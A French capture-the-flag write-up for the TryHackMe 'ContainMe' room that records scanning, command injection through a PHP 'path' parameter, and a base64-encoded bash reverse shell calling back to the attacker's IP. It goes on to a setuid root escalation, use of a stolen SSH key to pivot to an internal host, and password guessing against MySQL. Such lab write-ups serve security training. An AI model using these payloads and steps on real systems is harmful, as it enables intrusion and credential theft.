

# ContainMe # 

## Task 1 Find the flag ##

```bash
sudo sh -c "echo '10.10.123.231 containme.thm ' >> /etc/hosts"
sudo nmap -A containme.thm -p-
Starting Nmap 7.92 ( https://nmap.org ) at 2021-11-14 20:34 CET
Nmap scan report for containme.thm (10.10.123.231)
Host is up (0.070s latency).
Not shown: 65531 closed tcp ports (reset)
PORT     STATE SERVICE       VERSION
22/tcp   open  ssh           OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 a6:3e:80:d9:b0:98:fd:7e:09:6d:34:12:f9:15:8a:18 (RSA)
|   256 ec:5f:8a:1d:59:b3:59:2f:49:ef:fb:f4:4a:d0:1d:7a (ECDSA)
|_  256 b1:4a:22:dc:7f:60:e4:fc:08:0c:55:4f:e4:15:e0:fa (ED25519)
80/tcp   open  http          Apache httpd 2.4.29 ((Ubuntu))
|_http-title: Apache2 Ubuntu Default Page: It works
|_http-server-header: Apache/2.4.29 (Ubuntu)
2222/tcp open  EtherNetIP-1?
|_ssh-hostkey: ERROR: Script execution failed (use -d to debug)
8022/tcp open  ssh           OpenSSH 7.7p1 Ubuntu 4ppa1+obfuscated (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 dc:ae:ea:27:3f:ab:10:ae:8c:2e:b3:0c:5b:d5:42:bc (RSA)
|   256 67:29:75:04:74:1b:83:d3:c8:de:6d:65:fe:e6:07:35 (ECDSA)
|_  256 7f:7e:89:c4:e0:a0:da:92:6e:a6:70:45:fc:43:23:84 (ED25519)
No exact OS matches for host (If you know what OS is running on it, see https://nmap.org/submit/ ).
TCP/IP fingerprint:
OS:SCAN(V=7.92%E=4%D=11/14%OT=22%CT=1%CU=39587%PV=Y%DS=2%DC=T%G=Y%TM=619166
OS:01%P=x86_64-pc-linux-gnu)SEQ(SP=105%GCD=1%ISR=10A%TI=Z%CI=Z%II=I%TS=A)OP
OS:S(O1=M506ST11NW6%O2=M506ST11NW6%O3=M506NNT11NW6%O4=M506ST11NW6%O5=M506ST
OS:11NW6%O6=M506ST11)WIN(W1=F4B3%W2=F4B3%W3=F4B3%W4=F4B3%W5=F4B3%W6=F4B3)EC
OS:N(R=Y%DF=Y%T=40%W=F507%O=M506NNSNW6%CC=Y%Q=)T1(R=Y%DF=Y%T=40%S=O%A=S+%F=
OS:AS%RD=0%Q=)T2(R=N)T3(R=N)T4(R=Y%DF=Y%T=40%W=0%S=A%A=Z%F=R%O=%RD=0%Q=)T5(
OS:R=Y%DF=Y%T=40%W=0%S=Z%A=S+%F=AR%O=%RD=0%Q=)T6(R=Y%DF=Y%T=40%W=0%S=A%A=Z%
OS:F=R%O=%RD=0%Q=)T7(R=Y%DF=Y%T=40%W=0%S=Z%A=S+%F=AR%O=%RD=0%Q=)U1(R=Y%DF=N
OS:%T=40%IPL=164%UN=0%RIPL=G%RID=G%RIPCK=G%RUCK=G%RUD=G)IE(R=Y%DFI=N%T=40%C
OS:D=S)

Network Distance: 2 hops
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

TRACEROUTE (using port 1720/tcp)
HOP RTT      ADDRESS
1   33.64 ms 10.9.0.1
2   36.11 ms containme.thm (10.10.123.231)

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 315.35 seconds

```

Nmap nous montre ici plusieurs services qui sont : 
Le service SSH sur les ports 22 et 8022.   
Le service HTTP sur le port 80.   
Le service EtherNetIP-1 sur le port 2222.   

On remarque que la page principale du site est la page par défaut d'Apache.   

```bash
gobuster dir -u http://containme.thm -w /usr/share/dirb/wordlists/common.txt -t 100 -q
/index.html           (Status: 200) [Size: 10918]
/index.php            (Status: 200) [Size: 329]  
/info.php             (Status: 200) [Size: 68940]
```

Avec gobuster on trouve plusieurs fichiers.   



```bash
tim@kali:~/Bureau/tryhackme/write-up$ curl http://containme.thm/index.php
<html>
<body>
	<pre>
	total 28K
drwxr-xr-x 2 root root 4.0K Jul 16 11:40 .
drwxr-xr-x 3 root root 4.0K Jul 15 17:11 ..
-rw-r--r-- 1 root root  11K Jul 15 17:11 index.html
-rw-r--r-- 1 root root  154 Jul 16 11:40 index.php
-rw-r--r-- 1 root root   20 Jul 15 17:27 info.php
	<pre>

<!--  where is the path ?  -->

</body>
</html>
```

Dans la page index.php on voit qu'il les fichiers du système cible.    
Dans le code source le mot path est important.  

```bash
tim@kali:~/Bureau/tryhackme/write-up$ curl http://containme.thm/index.php?path=/
<html>
<body>
	<pre>
	total 72K
drwxr-xr-x  22 root   root    4.0K Jul 15 09:33 .
drwxr-xr-x  22 root   root    4.0K Jul 15 09:33 ..
drwxr-xr-x   2 root   root    4.0K Jul 30 04:28 bin
drwxr-xr-x   2 root   root    4.0K Jun 29 03:07 boot
drwxr-xr-x   8 root   root     480 Nov 14 13:31 dev
drwxr-xr-x  81 root   root    4.0K Jul 30 04:28 etc
drwxr-xr-x   3 root   root    4.0K Jul 19 15:03 home
drwxr-xr-x  16 root   root    4.0K Jun 29 03:04 lib
drwxr-xr-x   2 root   root    4.0K Jun 29 03:03 lib64
drwxr-xr-x   2 root   root    4.0K Jun 29 03:01 media
drwxr-xr-x   2 root   root    4.0K Jun 29 03:01 mnt
drwxr-xr-x   2 root   root    4.0K Jun 29 03:01 opt
dr-xr-xr-x 120 nobody nogroup    0 Nov 14 13:31 proc
drwx------   6 root   root    4.0K Jul 19 15:30 root
drwxr-xr-x  17 root   root     640 Nov 14 13:48 run
drwxr-xr-x   2 root   root    4.0K Jul 30 04:36 sbin
drwxr-xr-x   2 root   root    4.0K Jul 14 22:03 snap
drwxr-xr-x   2 root   root    4.0K Jun 29 03:01 srv
dr-xr-xr-x  13 nobody nogroup    0 Nov 14 13:31 sys
drwxrwxrwt   8 root   root    4.0K Nov 14 13:47 tmp
drwxr-xr-x  11 root   root    4.0K Jun 29 03:03 usr
drwxr-xr-x  14 root   root    4.0K Jul 15 17:11 var
	<pre>

<!--  where is the path ?  -->

</body>
</html>
```

Avec la variable path on peut indiquer le chemin.  

```bash
tim@kali:~/Bureau/tryhackme/write-up$ curl http://containme.thm/index.php?path=;id
<html>
<body>
	<pre>
	total 28K
drwxr-xr-x 2 root root 4.0K Jul 16 11:40 .
drwxr-xr-x 3 root root 4.0K Jul 15 17:11 ..
-rw-r--r-- 1 root root  11K Jul 15 17:11 index.html
-rw-r--r-- 1 root root  154 Jul 16 11:40 index.php
-rw-r--r-- 1 root root   20 Jul 15 17:27 info.php
	<pre>

<!--  where is the path ?  -->

</body>
</html>

uid=1000(tim) gid=1000(tim) groupes=1000(tim),24(cdrom),25(floppy),27(sudo),29(audio),30(dip),44(video),46(plugdev),109(netdev),117(bluetooth),132(scanner),144(vboxsf)
```  

On voit que les paramètres passés sont pas contrôlés.    

```bash
tim@kali:~/Bureau/tryhackme/write-up$ echo -n 'bash -i &>/dev/tcp/10.9.228.66/1234 <&1' | base64 
YmFzaCAtaSAmPi9kZXYvdGNwLzEwLjkuMjI4LjY2LzEyMzQgPCYx
```

On encode notre reverse shell, il doit avoir aucun caractères qui soit supprimés.  

```bash
tim@kali:~/Bureau/tryhackme/write-up$ pwncat_listen 1234
sudo pwncat -l 1234
[sudo] Mot de passe de tim : 
[21:26:30] Welcome to pwncat 🐈!                                                                                                                                                                                               __main__.py:153
bound to 0.0.0.0:1234 ━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━
```

On écoute sur le port 1234 pour avoir un shell.   

```bash
http://containme.thm/index.php?path=/tmp/;echo 'YmFzaCAtaSAmPi9kZXYvdGNwLzEwLjkuMjI4LjY2LzEyMzQgPCYx' | tee /tmp/shell.sh
http://containme.thm/index.php?path=/tmp/;cat /tmp/shell.sh | base64 -d | tee /tmp/shell2.sh
```

On injecte notre reverse shell encodé et on le décode.  

```bash
http://containme.thm/index.php?path=/tmp/;chmod 777 /tmp/shell2.sh   
http://containme.thm/index.php?path=/tmp/;bash -c /tmp/shell2.sh  
```

On rendre exécutable notre shell.   
On l'exécute.  

```bash
tim@kali:~/Bureau/tryhackme/write-up$ pwncat_listen 1234
sudo pwncat -l 1234
[sudo] Mot de passe de tim : 
[21:26:30] Welcome to pwncat 🐈!                                                                                                                                                                                               __main__.py:153
[21:42:59] received connection from 10.10.123.231:58422                                                                                                                                                                             bind.py:76
[21:43:00] 10.10.123.231:58422: registered new host w/ db                                                                                                                                                                       manager.py:504
(local) pwncat$
(remote) www-data@host1:/var/www/html$ ls /home
mike
(remote) www-data@host1:/var/www/html$ cd /home/mike/
(remote) www-data@host1:/home/mike$ ls 
1cryptupx
(remote) www-data@host1:/home/mike$ ./1cryptupx tot
░█████╗░██████╗░██╗░░░██╗██████╗░████████╗░██████╗██╗░░██╗███████╗██╗░░░░░██╗░░░░░
██╔══██╗██╔══██╗╚██╗░██╔╝██╔══██╗╚══██╔══╝██╔════╝██║░░██║██╔════╝██║░░░░░██║░░░░░
██║░░╚═╝██████╔╝░╚████╔╝░██████╔╝░░░██║░░░╚█████╗░███████║█████╗░░██║░░░░░██║░░░░░
██║░░██╗██╔══██╗░░╚██╔╝░░██╔═══╝░░░░██║░░░░╚═══██╗██╔══██║██╔══╝░░██║░░░░░██║░░░░░
╚█████╔╝██║░░██║░░░██║░░░██║░░░░░░░░██║░░░██████╔╝██║░░██║███████╗███████╗███████╗
░╚════╝░╚═╝░░╚═╝░░░╚═╝░░░╚═╝░░░░░░░░╚═╝░░░╚═════╝░╚═╝░░╚═╝╚══════╝╚══════╝╚══════╝

Unable to decompress.
(remote) www-data@host1:/home/mike$ ./1cryptupx mike
░█████╗░██████╗░██╗░░░██╗██████╗░████████╗░██████╗██╗░░██╗███████╗██╗░░░░░██╗░░░░░
██╔══██╗██╔══██╗╚██╗░██╔╝██╔══██╗╚══██╔══╝██╔════╝██║░░██║██╔════╝██║░░░░░██║░░░░░
██║░░╚═╝██████╔╝░╚████╔╝░██████╔╝░░░██║░░░╚█████╗░███████║█████╗░░██║░░░░░██║░░░░░
██║░░██╗██╔══██╗░░╚██╔╝░░██╔═══╝░░░░██║░░░░╚═══██╗██╔══██║██╔══╝░░██║░░░░░██║░░░░░
╚█████╔╝██║░░██║░░░██║░░░██║░░░░░░░░██║░░░██████╔╝██║░░██║███████╗███████╗███████╗
░╚════╝░╚═╝░░╚═╝░░░╚═╝░░░╚═╝░░░░░░░░╚═╝░░░╚═════╝░╚═╝░░╚═╝╚══════╝╚══════╝╚══════╝

```

On remarque un fichier dans le répertoire mike, quand on l'exécute autrement que le nom mike il marque qu'il n'arrive pas à décompresser.   

```bash
(local) pwncat$ run enumerate
Module 'enumerate' Results
system.network.interface facts
---
file.suid facts
  - /usr/share/man/zh_TW/crypt owned by root
  - /usr/bin/newuidmap owned by root
  - /usr/bin/newgidmap owned by root

```

En énumérant le système on remarque un fichier cryp setuid.  

```bash
(remote) www-data@host1:/home/mike$ /usr/share/man/zh_TW/crypt 
░█████╗░██████╗░██╗░░░██╗██████╗░████████╗░██████╗██╗░░██╗███████╗██╗░░░░░██╗░░░░░
██╔══██╗██╔══██╗╚██╗░██╔╝██╔══██╗╚══██╔══╝██╔════╝██║░░██║██╔════╝██║░░░░░██║░░░░░
██║░░╚═╝██████╔╝░╚████╔╝░██████╔╝░░░██║░░░╚█████╗░███████║█████╗░░██║░░░░░██║░░░░░
██║░░██╗██╔══██╗░░╚██╔╝░░██╔═══╝░░░░██║░░░░╚═══██╗██╔══██║██╔══╝░░██║░░░░░██║░░░░░
╚█████╔╝██║░░██║░░░██║░░░██║░░░░░░░░██║░░░██████╔╝██║░░██║███████╗███████╗███████╗
░╚════╝░╚═╝░░╚═╝░░░╚═╝░░░╚═╝░░░░░░░░╚═╝░░░╚═════╝░╚═╝░░╚═╝╚══════╝╚══════╝╚══════╝
(remote) www-data@host1:/home/mike$ /usr/share/man/zh_TW/crypt mike
░█████╗░██████╗░██╗░░░██╗██████╗░████████╗░██████╗██╗░░██╗███████╗██╗░░░░░██╗░░░░░
██╔══██╗██╔══██╗╚██╗░██╔╝██╔══██╗╚══██╔══╝██╔════╝██║░░██║██╔════╝██║░░░░░██║░░░░░
██║░░╚═╝██████╔╝░╚████╔╝░██████╔╝░░░██║░░░╚█████╗░███████║█████╗░░██║░░░░░██║░░░░░
██║░░██╗██╔══██╗░░╚██╔╝░░██╔═══╝░░░░██║░░░░╚═══██╗██╔══██║██╔══╝░░██║░░░░░██║░░░░░
╚█████╔╝██║░░██║░░░██║░░░██║░░░░░░░░██║░░░██████╔╝██║░░██║███████╗███████╗███████╗
░╚════╝░╚═╝░░╚═╝░░░╚═╝░░░╚═╝░░░░░░░░╚═╝░░░╚═════╝░╚═╝░░╚═╝╚══════╝╚══════╝╚══════╝

root@host1:/home/mike# 

```

On remarque que c'est le même fichier que dans le répertoire mike.  
On mettant mike on a le droits root.   

```bash
root@host1:/home/mike# ls -al
total 384
drwxr-xr-x 5 mike mike   4096 Jul 30 04:36 .
drwxr-xr-x 3 root root   4096 Jul 19 15:03 ..
lrwxrwxrwx 1 root mike      9 Jul 19 15:06 .bash_history -> /dev/null
-rw-r--r-- 1 mike mike    220 Apr  4  2018 .bash_logout
-rw-r--r-- 1 mike mike   3771 Apr  4  2018 .bashrc
drwx------ 2 mike mike   4096 Jul 30 04:36 .cache
drwx------ 3 mike mike   4096 Jul 30 04:36 .gnupg
-rw-r--r-- 1 mike mike    807 Apr  4  2018 .profile
drwx------ 2 mike mike   4096 Jul 19 15:27 .ssh
-rwxr-xr-x 1 mike mike 358668 Jul 30 04:39 1cryptupx

root@host1:/home/mike# cd .ssh
root@host1:/home/mike/.ssh# ls
id_rsa  id_rsa.pub

```

On remarque dans le répertoire mike il y a la clé privée ssh.   

```bash
root@host1:/# ifconfig
eth0: flags=4163<UP,BROADCAST,RUNNING,MULTICAST>  mtu 1500
        inet 192.168.250.10  netmask 255.255.255.0  broadcast 192.168.250.255
        inet6 fe80::216:3eff:fe9c:ff0f  prefixlen 64  scopeid 0x20<link>
        ether 00:16:3e:9c:ff:0f  txqueuelen 1000  (Ethernet)
        RX packets 701  bytes 58978 (58.9 KB)
        RX errors 0  dropped 0  overruns 0  frame 0
        TX packets 532  bytes 93166 (93.1 KB)
        TX errors 0  dropped 0 overruns 0  carrier 0  collisions 0

eth1: flags=4163<UP,BROADCAST,RUNNING,MULTICAST>  mtu 1500
        inet 172.16.20.2  netmask 255.255.255.0  broadcast 172.16.20.255
        inet6 fe80::216:3eff:fe46:6b29  prefixlen 64  scopeid 0x20<link>
        ether 00:16:3e:46:6b:29  txqueuelen 1000  (Ethernet)
        RX packets 50  bytes 3772 (3.7 KB)
        RX errors 0  dropped 0  overruns 0  frame 0
        TX packets 23  bytes 1746 (1.7 KB)
        TX errors 0  dropped 0 overruns 0  carrier 0  collisions 0

lo: flags=73<UP,LOOPBACK,RUNNING>  mtu 65536
        inet 127.0.0.1  netmask 255.0.0.0
        inet6 ::1  prefixlen 128  scopeid 0x10<host>
        loop  txqueuelen 1000  (Local Loopback)
        RX packets 15846  bytes 3447408 (3.4 MB)
        RX errors 0  dropped 0  overruns 0  frame 0
        TX packets 15846  bytes 3447408 (3.4 MB)
        TX errors 0  dropped 0 overruns 0  carrier 0  collisions 
```

On regardant les informations sur le réseau on trouve un réseau eth1 avec l'adresse 172.16.20.2  

```bash
root@host1:/# cd /tmp 
(local) pwncat$ upload ./nmap
./nmap ━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━ 100.0% • 5.9/5.9 MB • 3.1 MB/s • 0:00:00
[21:58:36] uploaded 5.94MiB in 2.70 seconds    

(remote) root@host1:/tmp# ./nmap -sn 172.16.20.0/24

Starting Nmap 6.49BETA1 ( http://nmap.org ) at 2021-11-14 14:59 CST
Cannot find nmap-payloads. UDP payloads are disabled.
Nmap scan report for ip-172-16-20-6.eu-west-1.compute.internal (172.16.20.6)
Cannot find nmap-mac-prefixes: Ethernet vendor correlation will not be performed
Host is up (-0.13s latency).
MAC Address: 00:16:3E:17:60:9E (Unknown)
Nmap scan report for ip-172-16-20-2.eu-west-1.compute.internal (172.16.20.2)
Host is up.
Nmap done: 256 IP addresses (2 hosts up) scanned in 5.12 seconds

(remote) root@host1:/tmp# ./nmap 172.16.20.6

Starting Nmap 6.49BETA1 ( http://nmap.org ) at 2021-11-14 15:05 CST
Unable to find nmap-services!  Resorting to /etc/services
Cannot find nmap-payloads. UDP payloads are disabled.
Nmap scan report for ip-172-16-20-6.eu-west-1.compute.internal (172.16.20.6)
Cannot find nmap-mac-prefixes: Ethernet vendor correlation will not be performed
Host is up (0.0000090s latency).
Not shown: 1206 closed ports
PORT   STATE SERVICE
22/tcp open  ssh
MAC Address: 00:16:3E:17:60:9E (Unknown)

Nmap done: 1 IP address (1 host up) scanned in 1.65 seconds
```

On télécharge nmap dans notre machine cîble.  
On scanne la plage réseau sur de l'adresse 172.16.20.0 et on trouve deux adresses.  
On scanne l'adresse 172.16.20.6 et on trouve un service SSH sur le port 22.  

```bash
(remote) root@host1:/home/mike/.ssh# ssh -i id_rsa mike@172.16.20.6
The authenticity of host '172.16.20.6 (172.16.20.6)' can't be established.
ECDSA key fingerprint is SHA256:L1BKa1sC+LgClbpAX5jJvzYALuhUDf1zEzhPc/C++/8.
Are you sure you want to continue connecting (yes/no)? yes
Warning: Permanently added '172.16.20.6' (ECDSA) to the list of known hosts.

The programs included with the Ubuntu system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Ubuntu comes with ABSOLUTELY NO WARRANTY, to the extent permitted by
applicable law.

Last login: Mon Jul 19 20:23:18 2021 from 172.16.20.2
mike@host2:~$ ss -ltu
Netid                     State                       Recv-Q                      Send-Q                                              Local Address:Port                                               Peer Address:Port                      
udp                       UNCONN                      0                           0                                                   127.0.0.53%lo:domain                                                  0.0.0.0:*                         
tcp                       LISTEN                      0                           128                                                 127.0.0.53%lo:domain                                                  0.0.0.0:*                         
tcp                       LISTEN                      0                           128                                                       0.0.0.0:ssh                                                     0.0.0.0:*                         
tcp                       LISTEN                      0                           80                                                      127.0.0.1:mysql                                                   0.0.0.0:*                         
tcp                       LISTEN                      0                           128                                                          [::]:ssh                                                        [::]:*
```

On se connecte sur le service SSH avec la clé privée ça fonctionne.  
On regarde les services qui écoutes et on voit le service mysql.  

```bash
mike@host2:/tmp$ mysql -umyke -p1234 127.0.0.1
mysql: [Warning] Using a password on the command line interface can be insecure.
ERROR 1045 (28000): Access denied for user 'myke'@'localhost' (using password: YES)
```

Je test une connexion avec le mike et un de passe mais ça de ne fonctionne pas.   


```bash
tim@kali:~/Bureau/tryhackme/write-up$ head /usr/share/wordlists/rockyou.txt 
123456
12345
123456789
password
iloveyou
princess
1234567
rockyou
12345678
abc123

mike@host2:/tmp$ cat pass.txt 
tim@kali:~/Bureau/tryhackme/write-up$ head /usr/share/wordlists/rockyou.txt 
123456
12345
123456789
password
iloveyou
princess
1234567
rockyou
12345678
abc123

mike@host2:/tmp$ mysql -umike -ppassword
mysql: [Warning] Using a password on the command line interface can be insecure.
Welcome to the MySQL monitor.  Commands end with ; or \g.
Your MySQL connection id is 17
Server version: 5.7.34-0ubuntu0.18.04.1 (Ubuntu)

Copyright (c) 2000, 2021, Oracle and/or its affiliates.

Oracle is a registered trademark of Oracle Corporation and/or its
affiliates. Other names may be trademarks of their respective
owners.

Type 'help;' or '\h' for help. Type '\c' to clear the current input statement.

mysql> show databases;
+--------------------+
| Database           |
+--------------------+
| information_schema |
| accounts           |
+--------------------+
2 rows in set (0.01 sec)

mysql> use accounts
Reading table information for completion of table and column names
You can turn off this feature to get a quicker startup with -A
Database changed

mysql> show tables;
+--------------------+
| Tables_in_accounts |
+--------------------+
| users              |
+--------------------+
1 row in set (0.00 sec)

mysql> select * from users;
+-------+---------------------+
| login | password            |
+-------+---------------------+
| root  | bjsig4868fgjjeog    |
| mike  | WhatAreYouDoingHere |
+-------+---------------------+
2 rows in set (0.00 sec)
```

On trouve le mot de passes dans les 10 premiers mot de passe de rockyou.  

Dans la basse de données on trouve les identifiants de root et mike.   

```bash
mike@host2:/tmp$ su root
Password: bjsig4868fgjjeog
root@host2:/tmp# id
uid=0(root) gid=0(root) groups=0(root)
root@host2:/tmp# cd /root
root@host2:~# ls
mike.zip
root@host2:~# unzip mike.zip 
Archive:  mike.zip
[mike.zip] mike password: WhatAreYouDoingHere
 extracting: mike                    
root@host2:~# cat mike
THM{_Y0U_F0UND_TH3_C0NTA1N3RS_}
```

On se connecte en root avec le mot de passe de root.   
Dans le répertoire root on trouve un fichier mike.zip qui a besoin d'un mot de passe.  
On décompresse le fichier mike.zip avec le mot de passe de mike.  
On lit le fichier mike qui contient le flag qui est : THM{_Y0U_F0UND_TH3_C0NTA1N3RS_}   